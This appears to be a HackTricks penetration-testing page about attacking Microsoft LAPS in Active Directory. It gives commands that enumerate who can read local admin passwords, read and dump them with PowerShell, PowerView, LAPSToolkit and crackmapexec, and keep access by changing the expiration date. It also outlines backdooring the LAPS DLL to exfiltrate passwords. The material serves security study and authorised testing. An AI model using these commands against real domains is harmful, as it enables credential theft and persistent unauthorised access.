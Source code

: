 # LAPS

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

<figure><img src="/.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## Basic Information

Local Administrator Password Solution (LAPS) is a tool used for managing a system where **administrator passwords**, which are **unique, randomized, and frequently changed**, are applied to domain-joined computers. These passwords are stored securely within Active Directory and are only accessible to users who have been granted permission through Access Control Lists (ACLs). The security of the password transmissions from the client to the server is ensured by the use of **Kerberos version 5** and **Advanced Encryption Standard (AES)**.

In the domain's computer objects, the implementation of LAPS results in the addition of two new attributes: **`ms-mcs-AdmPwd`** and **`ms-mcs-AdmPwdExpirationTime`**. These attributes store the **plain-text administrator password** and **its expiration time**, respectively.

### Check if activated

```bash
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

dir "C:\Program Files\LAPS\CSE"
# Check if that folder exists and contains AdmPwd.dll

# Find GPOs that have "LAPS" or some other descriptive term in the name
Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl

# Search computer objects where the ms-Mcs-AdmPwdExpirationTime property is not null (any Domain User can read this property)
Get-DomainObject -SearchBase "LDAP://DC=sub,DC=domain,DC=local" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname
```

### LAPS Password Access

You could **download the raw LAPS policy** from `\\dc\SysVol\domain\Policies\{4A8A4E8E-929F-401A-95BD-A7D40E0976C8}\Machine\Registry.pol` and then use **`Parse-PolFile`** from the [**GPRegistryPolicyParser**](https://github.com/PowerShell/GPRegistryPolicyParser) package can be used to convert this file into human-readable format.

Moreover, the **native LAPS PowerShell cmdlets** can be used if they're installed on a machine we have access to:

```powershell
Get-Command *AdmPwd*

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Cmdlet          Find-AdmPwdExtendedRights                          5.0.0.0    AdmPwd.PS
Cmdlet          Get-AdmPwdPassword                                 5.0.0.0    AdmPwd.PS
Cmdlet          Reset-AdmPwdPassword                               5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdAuditing                                 5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdComputerSelfPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdReadPasswordPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdResetPasswordPermission                  5.0.0.0    AdmPwd.PS
Cmdlet          Update-AdmPwdADSchema                              5.0.0.0    AdmPwd.PS

# List who can read LAPS password of the given OU
Find-AdmPwdExtendedRights -Identity Workstations | fl

# Read the password
Get-AdmPwdPassword -ComputerName wkstn-2 | fl
```

**PowerView** can also be used to find out **who can read the password and read it**:

```powershell
# Find the principals that have ReadPropery on ms-Mcs-AdmPwd
Get-AdmPwdPassword -ComputerName wkstn-2 | fl

# Read the password
Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd
```

### LAPSToolkit

The [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) facilitates the enumeration of LAPS this with several functions.\
One is parsing **`ExtendedRights`** for **all computers with LAPS enabled.** This will show **groups** specifically **delegated to read LAPS passwords**, which are often users in protected groups.\
An **account** that has **joined a computer** to a domain receives `All Extended Rights` over that host, and this right gives the **account** the ability to **read passwords**. Enumeration may show a user account that can read the LAPS password on a host. This can help us **target specific AD users** who can read LAPS passwords.

```powershell
# Get groups that can read passwords
Find-LAPSDelegatedGroups

OrgUnit                                           Delegated Groups
-------                                           ----------------
OU=Servers,DC=DOMAIN_NAME,DC=LOCAL                DOMAIN_NAME\Domain Admins
OU=Workstations,DC=DOMAIN_NAME,DC=LOCAL           DOMAIN_NAME\LAPS Admin

# Checks the rights on each computer with LAPS enabled for any groups
# with read access and users with "All Extended Rights"
Find-AdmPwdExtendedRights
ComputerName                Identity                    Reason
------------                --------                    ------
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\Domain Admins   Delegated
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\LAPS Admins     Delegated

# Get computers with LAPS enabled, expirations time and the password (if you have access)
Get-LAPSComputers
ComputerName                Password       Expiration
------------                --------       ----------
DC01.DOMAIN_NAME.LOCAL      j&gR+A(s976Rf% 12/10/2022 13:24:41
```
## **Dumping LAPS Passwords With Crackmapexec**
If there is no access to a powershell you can abuse this privilege remotely through LDAP by using 
```
crackmapexec ldap 10.10.10.10 -u user -p password --kdcHost 10.10.10.10 -M laps
```
This will dump all the passwords that the user can read, allowing you to get a better foothold with a different user.

## **LAPS Persistence**

### **Expiration Date**

Once admin, it's possible to **obtain the passwords** and **prevent** a machine from **updating** its **password** by **setting the expiration date into the future**.

```powershell
# Get expiration time
Get-DomainObject -Identity computer-21 -Properties ms-mcs-admpwdexpirationtime

# Change expiration time
## It's needed SYSTEM on the computer
Set-DomainObject -Identity wkstn-2 -Set @{"ms-mcs-admpwdexpirationtime"="232609935231523081"}
```

{% hint style="warning" %}
The password will still reset if an **admin** uses the **`Reset-AdmPwdPassword`** cmdlet; or if **Do not allow password expiration time longer than required by policy** is enabled in the LAPS GPO.
{% endhint %}

### Backdoor

The original source code for LAPS can be found [here](https://github.com/GreyCorbel/admpwd), therefore it's possible to put a backdoor in the code (inside the `Get-AdmPwdPassword` method in `Main/AdmPwd.PS/Main.cs` for example) that will somehow **exfiltrate new passwords or store them somewhere**.

Then, just compile the new `AdmPwd.PS.dll` and upload it to the machine in `C:\Tools\admpwd\Main\AdmPwd.PS\bin\Debug\AdmPwd.PS.dll` (and change the modification time).

## References
* [https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/](https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/)

<figure><img src="/.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
